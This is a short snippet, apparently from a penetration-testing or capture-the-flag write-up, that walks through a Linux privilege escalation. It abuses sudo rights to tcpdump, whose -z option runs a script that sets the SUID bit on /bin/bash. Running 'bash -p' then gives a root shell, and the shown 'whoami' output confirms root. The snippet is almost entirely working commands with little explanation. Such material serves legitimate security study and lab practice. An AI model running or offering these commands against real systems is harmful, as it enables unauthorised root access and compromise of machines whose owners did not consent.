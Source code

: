 
```sh
echo 'chmod +s /bin/bash' > /tmp/pwn.sh  --> normal privileges
chmod +x /tmp/pwn.sh                     --> normal privileges (now every thing is set up, we need to use sudo now)
sudo /usr/sbin/tcpdump -i lo -w /dev/null -W 1 -G 1 -z /tmp/pwn.sh -Z root  --> high privileges.
```

After that you put `SUID` bit on `/bin/bash`, now you can get shell as root using following:
```
/bin/bash -p

bash# whoami
root
```